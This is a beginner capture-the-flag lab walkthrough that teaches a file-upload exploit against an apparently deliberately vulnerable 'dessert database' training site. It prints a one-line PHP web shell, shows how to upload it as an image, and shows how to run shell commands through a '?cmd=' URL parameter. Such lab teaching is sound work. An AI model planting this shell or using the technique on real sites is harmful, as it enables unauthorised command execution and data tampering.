 # Dessert Database File Upload Exploitation
This page will help you learn how Alice and Bob's dessert database works
and help you hack into it just like those L33k3ers!

![USA Cake](https://d213sdapb08052.cloudfront.net/assets/recipes/flag-cake/_ogImage/IMG_1153.jpeg?mtime=20200521120223)

## Lets Begin
First, lets begin by going to the database itself...
> <a href="http://desserts.gel.webfactional.com/" target="_blank">DATABASE</a>

Here you will see the option to upload a picture of your favorite dessert!

Go ahead, find a picture of your favorite dessert, download the image to your computer, then upload!

Cool right?

Now here is the part that Alice and Bob want you to pay close attention to...

## Exploit
We want you to download this file below...

> <a href="https://udel.codes/cyber2/Hack.php" target="_blank">Hacky File</a>

The contents of this file are the following

`<? print_r(system($_GET['cmd'])); ?>`

What this line of code does is it allows for us to inject (enter) bash commands into the url. The Bash commands
that you can type are the same commands that you learned yesterday in the bash tutorial!

These bash commands can do all types of malicious things such as go list all the files the website contains, delete files, ect. So,
they L33k3rs must have used bash commands to put the picutres of the leeks all over our database!

**But we won't be deleting files cause we are not the L33k3ers!**

Now that you know what the file we just downloaded does, upload that file just as you did with your dessert image

Once you do that, you will be directed to a page that says 
> We got your cake image: /cakes/Hack.php

**With a little image underneath**

**Right click** on this image and select, **"Open Image in new Tab"**

Once at the new webpage, go to the url and at the very end put this statement...

`?cmd=ls`

Hit enter, and now you see a list of all the files that the website contains! Crazy right! 

The command that is executed is directly after the `=`, so like we learned in the bash tutorial, `ls` prints all the contents of a directory. Now, find the **flag!**

## You are truly becoming an expert!







